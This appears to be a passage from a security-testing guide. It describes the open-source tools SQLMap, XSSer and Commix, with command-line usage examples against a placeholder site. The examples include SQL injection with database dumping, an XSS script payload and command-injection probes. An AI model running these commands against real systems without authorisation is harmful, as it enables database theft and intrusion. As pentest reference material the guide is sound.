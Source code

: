 ### 1. SQLMap
**Purpose**: SQL injection testing  
**License**: Open source  
**Capabilities**: Database fingerprinting, data extraction, shell access

#### Usage Examples:
```bash
# Basic SQL injection test
sqlmap -u "https://target.com/search?q=test" --batch

# Test POST parameters
sqlmap -u "https://target.com/login" --data="username=admin&password=test" --batch

# Advanced options
sqlmap -u "https://target.com/api/user/1" --technique=BEUSTQ --dbms=postgresql --dump

# Cookie-based testing
sqlmap -u "https://target.com/profile" --cookie="sessionid=abc123" --batch
```

### 2. XSSer
**Purpose**: Cross-site scripting testing  
**License**: Open source  
**Features**: Automatic XSS detection and exploitation

#### Usage:
```bash
# Basic XSS testing
xsser -u "https://target.com/search?q=XSS"

# POST parameter testing
xsser -u "https://target.com/comment" -p "comment=XSS&submit=Post"

# Advanced payload testing
xsser -u "https://target.com/search" --payload="<script>alert('XSS')</script>"
```

### 3. Commix
**Purpose**: Command injection testing  
**License**: Open source  
**Techniques**: Time-based, boolean-based, error-based injection

#### Usage:
```bash
# Basic command injection test
commix -u "https://target.com/ping?host=127.0.0.1"

# POST parameter testing
commix -u "https://target.com/system" --data="command=ls"

# Cookie parameter testing
commix -u "https://target.com/admin" --cookie="admin=true"
```
